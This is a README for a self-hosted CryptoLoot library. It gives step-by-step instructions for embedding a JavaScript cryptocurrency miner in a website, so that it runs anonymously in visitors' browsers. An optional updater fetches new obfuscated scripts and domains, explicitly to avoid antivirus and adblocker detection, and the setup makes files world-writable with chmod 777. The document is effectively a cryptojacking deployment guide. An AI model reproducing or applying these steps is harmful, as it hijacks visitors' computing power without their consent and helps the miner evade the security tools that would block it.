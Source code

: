 # cryptoloot

Self Hosted Library for CryptoLoot v2.0
=======================================

How to Install:
1) Download https://github.com/Crypto-Loot/cryptoloot/archive/master.zip and uncompress at yoursite.com home directory
or alternatively use ```git clone https://github.com/Crypto-Loot/cryptoloot.git```
2) Register at https://crypto-loot.com to get your public site ID, you'll need this for the next step.
3) Add the script to your website, preferably ABOVE </body> tag, and not within the <head></head> tags. Make sure to edit YOUR_PUBLIC_KEY with your site ID from crypto-loot.com:
```text
<script src="lib/crypta.js"></script>
<script>
            var miner=new CRLT.Anonymous('YOUR_PUBLIC_KEY', {
                threads:4,autoThreads:false,throttle:0.2,
            });
        miner.start();
</script>
```
NOTE: Also, edit your site key above from the one you have on https://crypto-loot.com

4) All set. Now just send some traffic!

5) Optional: Set to automatically update (to stay up to date with the latest obfuscated scripts and domains to avoid AV/Adblocker detection):
Make sure to install php-curl extension on your server if it does not exist:

***CentOS:***
```text
yum install php-curl
```
***Debian:***
```text
apt-get install php-curl
```
Change the permissions of these threee files to 777 so they can be overwritten on update:
```text
chmod 777 lib/crypta.js lib/version.txt
```
Install the cron to check for updates once every 12 hours:
```text
0 */12 * * * php /var/www/html/website/updater.php >> /var/www/html/website/cl_log.txt
```

Have any questions?
===================
Feel free to contact as at https://crypto-loot.com
